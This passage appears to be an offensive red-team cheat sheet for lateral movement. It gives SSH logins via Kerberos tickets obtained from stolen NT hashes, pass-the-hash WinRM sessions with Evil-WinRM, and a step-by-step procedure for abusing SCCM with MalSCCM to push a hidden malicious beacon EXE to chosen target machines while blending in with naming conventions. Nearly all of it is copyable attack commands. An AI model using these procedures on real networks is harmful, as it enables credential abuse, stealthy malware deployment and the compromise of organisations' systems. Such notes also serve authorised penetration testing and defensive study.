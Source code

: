 #### _Start SSH session:_
- Connect to SSH server: 
	- Regular login: `ssh <name>@<target ip>`
	- Use this syntax in the case when the ssh connection generates an error and requires “matching key exchange”: `ssh -okexAlgorithms=+<paste 1 shown key format from the error msg> -p <port> <name>@<target ip>`
- Login to domain joined Linux system using TGT:
	- 1\. Request TGT \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 getTGT.py <FQDN>/Administrator@<FQDN DC> -hashes :<HASH>`
	- 2\. Check location to where to locally store the TGT: `ssh -o GSSAPIAuthentication=yes user@domain.local -vv`
	- 3\. Copy ticket to correct location so SSH can import it: `cp user.ccache /tmp/krb5cc_1045`
	- 4\. Login over ssh using kerberos: `ssh -o GSSAPIAuthentication=yes <username>@<FQDN target Linux host>`

#### _Start WinRM session:_
- \([Evil\-WinRM](https://github.com/Hackplayers/evil-winrm)\): `evil-winrm -i <target ip> -u <username> (-p <password> | -H <NT hash>)`

#### _Abuse Microsoft System Centre Configuration Manager \(SCCM\) for lateral movement:_
SCCM is a Microsoft solution to administer systems across the organisation and for example push PowerShell sripts and commands to clients and start remote terminal sessions\. These functionalities are great for OPSEC friendly lateral movement and maybe even get access to segmented parts of the network\.
- 1\. From the context of an already compromised client/server, check if the CcmExec\.exe process is running which indicates that the client is managed by SCCM\. 
- 2\. Identify were the Distribution Point \(management server\) is for the current client \([MalSCCM](https://github.com/nettitude/MalSCCM)\): `MalSCCM.exe locate`
- 3\. It is now mandatory to get administrator level access \(e\.g\. SCCM administrator account, local administrator, DA\) to the Distribution Point server\. 
- 4\. From this new admin context, verify if the Distribution Point server is also the Primary Site \(if it returns group information it is the Primary Site\) \(MalSCCM\): `MalSCCM.exe inspect /server:<DistributionPoint Server FQDN> /groups`
- 5\. \(optional\) if the Primary Site is not found or no information is returned, it is required to get a beacon on the Distribution Point server and enumerate again \(MalSCCM\): `MalSCCM.exe locate`
- 6\. If you want to compromise a specific user or machine, enumeration can be done through SCCM \(MalSCCM\):
	- Enumerate computers: `MalSCCM.exe inspect /computers (/server:<PrimarySiteFQDN>)`
	- Enumerate Primary Users \(this will return a list of user login sessions and the corresponding computer\) \(MalSCCM\): `MalSCCM.exe inspect /primaryusers (/server:<PrimarySiteFQDN>)`
- 7\. Create a new computer group that blends in with the environments naming convention \(MalSCCM\): `MalSCCM.exe group /create /groupname:<new group name> /grouptype:device (/server:<PrimarySiteFQDN>)`
- 8\. Add the target computer\(s\) \(you want to access\) to the created group (MalSCCM): `MalSCCM.exe group /addhost /groupname:<created group> /host:<target computer name> (/server:<PrimarySiteFQDN>)`
- 9\. Verify if the target computer is in the new group \(MalSCCM\): `MalSCCM.exe inspect /groups (/server:<PrimarySiteFQDN>)`
- 10\. Create a \.EXE beacon payload and place it in a by Domain Computers accessible share on the network \(when SCCM is installed, a widely accessible share is exposed on Distribution Points called “\\\\<computername Distribution Points serve>\\SCCMContentLib$\\” \)
- 11\. Create a new hidden application that points to the malicious EXE \(MalSCCM\): `MalSCCM.exe app /create /name:<name new application (e.g. demoapp)> /uncpath:"\\<computername Distribution Points serve>\SCCMContentLib$\payload\.exe" (/server:<PrimarySiteFQDN>)`
- 12\. Verify if the application was created \(MalSCCM\): `MalSCCM.exe inspect /applications (/server:<PrimarySiteFQDN>)`
- 13\. Create an application deployment for the created group \(MalSCCM\): `MalSCCM.exe app /deploy /name:<name created application> /groupname:<new created group> /assignmentname:<new deployment name (e.g. demodeployment)> (/server:<PrimarySiteFQDN>)`
- 14\. Verify if the deployment was created \(MalSCCM\): `MalSCCM.exe inspect /deployments (/server:<PrimarySiteFQDN>)`